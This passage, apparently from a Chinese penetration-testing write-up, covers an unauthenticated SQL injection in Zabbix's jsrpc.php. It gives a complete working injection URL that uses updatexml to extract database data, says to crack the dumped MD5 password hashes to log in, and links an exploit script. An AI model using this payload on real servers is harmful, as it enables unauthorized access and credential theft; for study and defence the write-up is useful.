 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221024598.png-water_print](assets/1699408100-814bd6d27af0ff9998bcd7a85a48b4ae.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221024598.png-water_print")

#### [](#222-%E6%97%A0%E7%94%A8%E6%88%B7%E5%87%AD%E6%8D%AE)2.2.2 无用户凭据

这个漏洞也可以通过 jsrpc.php 触发，且无需登录：`http://IP:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221025643.png-water_print](assets/1699408100-546ca7a37c1f573f406092d2fe6ed9b4.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221025643.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221043435.png-water_print](assets/1699408100-9ced5e8a39b69f078b37ace94caf3ebf.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221043435.png-water_print")

将用户密码 MD5 还原即可登录。漏洞利用脚本：[zabbixPwn](https://github.com/RicterZ/zabbixPwn)
